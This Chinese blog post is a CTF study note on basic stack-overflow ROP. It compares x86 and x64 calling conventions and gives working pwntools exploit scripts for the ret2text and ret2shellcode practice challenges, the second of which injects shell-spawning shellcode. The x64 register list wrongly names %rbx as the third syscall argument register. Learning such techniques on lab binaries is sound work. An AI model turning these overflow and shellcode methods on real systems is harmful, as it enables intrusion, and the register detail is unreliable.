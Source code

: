 ```yaml
---
title: Pwn入门 - Part III Stack Overflow实战(CTFWIKI)
date: 2022-1-9 14:09:00 +0800
author: sirius
categories: [CTF]
tags: [CTF, pwn]
math: false
typora-root-url: ../../SiriusHsh.github.io
typora-copy-images-to: ../assets/img/2022
---
```


##  CTF wiki

## 基本ROP

CTF wiki上的题目都是32位的，32位的和64位的区别在于

> **函数参数**
>
> - X86
>
>   - 函数的参数放在栈上，在函数返回地址的上方
>
>     ![image-20220109222121679](/assets/img/2022/image-20220109222121679.png){: .normal}
>
>     就像这样调用gets前，将参数（这里是待赋值的变量的地址）压入栈（放在esp上）
>
> - x64
>
>   - 函数的前6个参数放在寄存器里，其余的才会放在栈上

> **系统调用**
>
> - x86
>   - 寄存器： %eax, arg0(%ebx), arg1(%ecx), arg2(%edx)  .etc
>   - 系统调用 int 0x80
> - x64
>   - 寄存器：%rax, arg0(%rdi), arg1(%rsi), arg2(%rbx)   .etc
>   - 系统调用 syscall

### # ret2text

通过debug一下

![image-20220109225355822](/assets/img/2022/image-20220109225355822.png)

可以看到，实际上s相较于ebp的偏移是0x6c个字节。

![image-20220109225923257](/assets/img/2022/image-20220109225923257.png)

exp:

```python
from pwn import *

r = process('./ret2text')

magic_addr = 0x804863A
r.recvuntil('anything?\n')
p = 'a'*(0x6c+0x4)+p32(magic_addr)
r.sendline(p)

r.interactive()
```

### # ret2shellcode

```python
from pwn import *


r = process('./ret2shellcode')

r.recvuntil('!!!\n')
shell = asm(shellcraft.sh())
p = shell.ljust(0x6c+0x4, 'a') + p32(0x0804A080)

r.sendline(p)

r.interactive()
```



## 中级ROP



## 高级ROP

